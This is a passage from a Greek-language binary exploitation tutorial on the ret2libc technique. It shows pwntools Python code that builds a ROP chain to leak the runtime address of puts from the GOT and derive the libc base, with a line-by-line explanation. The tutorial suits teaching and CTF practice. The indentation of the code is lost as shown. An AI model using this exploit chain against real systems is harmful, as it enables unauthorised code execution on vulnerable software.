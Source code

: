 Σε αυτό το βήμα δεν χρειάζεται να εκτελέσετε τίποτα, καθώς όλα θα βρεθούν από το pwntools κατά τη διάρκεια της εκτέλεσης.

# 3- Εύρεση βιβλιοθήκης LIBC

Τώρα είναι η στιγμή να βρούμε ποια έκδοση της βιβλιοθήκης **libc** χρησιμοποιείται. Για να το κάνουμε αυτό, θα **διαρρεύσουμε** τη **διεύθυνση** στη μνήμη της **συνάρτησης** `puts` και στη συνέχεια θα **αναζητήσουμε** σε ποια **έκδοση βιβλιοθήκης** βρίσκεται η έκδοση του puts σε αυτήν τη διεύθυνση.
```python
def get_addr(func_name):
FUNC_GOT = elf.got[func_name]
log.info(func_name + " GOT @ " + hex(FUNC_GOT))
# Create rop chain
rop1 = OFFSET + p64(POP_RDI) + p64(FUNC_GOT) + p64(PUTS_PLT) + p64(MAIN_PLT)

#Send our rop-chain payload
#p.sendlineafter("dah?", rop1) #Interesting to send in a specific moment
print(p.clean()) # clean socket buffer (read all and print)
p.sendline(rop1)

#Parse leaked address
recieved = p.recvline().strip()
leak = u64(recieved.ljust(8, "\x00"))
log.info("Leaked libc address,  "+func_name+": "+ hex(leak))
#If not libc yet, stop here
if libc != "":
libc.address = leak - libc.symbols[func_name] #Save libc base
log.info("libc base @ %s" % hex(libc.address))

return hex(leak)

get_addr("puts") #Search for puts address in memmory to obtains libc base
if libc == "":
print("Find the libc library and continue with the exploit... (https://libc.blukat.me/)")
p.interactive()
```
Για να το επιτύχουμε, η πιο σημαντική γραμμή του εκτελούμενου κώδικα είναι:
```python
rop1 = OFFSET + p64(POP_RDI) + p64(FUNC_GOT) + p64(PUTS_PLT) + p64(MAIN_PLT)
```
Αυτό θα στείλει μερικά bytes μέχρι να είναι δυνατή η **αντικατάσταση** του **RIP**: `OFFSET`.\
Στη συνέχεια, θα ορίσει τη **διεύθυνση** του gadget `POP_RDI` έτσι ώστε η επόμενη διεύθυνση (`FUNC_GOT`) να αποθηκευτεί στον καταχωρητή **RDI**. Αυτό γίνεται επειδή θέλουμε να καλέσουμε τη συνάρτηση puts περνώντας της τη **διεύθυνση** του `PUTS_GOT` ως τη διεύθυνση στη μνήμη της συνάρτησης puts που αποθηκεύεται στη διεύθυνση που δείχνει το `PUTS_GOT`.\
Μετά από αυτό, θα κληθεί η `PUTS_PLT` (με το `PUTS_GOT` μέσα στον καταχωρητή **RDI**) έτσι ώστε η puts να **διαβάσει το περιεχόμενο** μέσα στο `PUTS_GOT` (**τη διεύθυνση της συνάρτησης puts στη μνήμη**) και να το **εκτυπώσει**.\
Τέλος, καλείται ξανά η **κύρια συνάρτηση** ώστε να μπορέσουμε να εκμεταλλευτούμε ξανά την υπερχείλιση.

Με αυτόν τον τρόπο έχουμε **εξαπατήσει τη συνάρτηση puts** να εκτυπώσει τη **διεύθυνση** στη **μνήμη** της συνάρτησης **puts** (η οποία βρίσκεται μέσα στη βιβλιοθήκη **libc**). Τώρα που έχουμε αυτήν τη διεύθυνση, μπορούμε να **αναζητήσουμε ποια έκδοση της libc χρησιμοποιείται**.
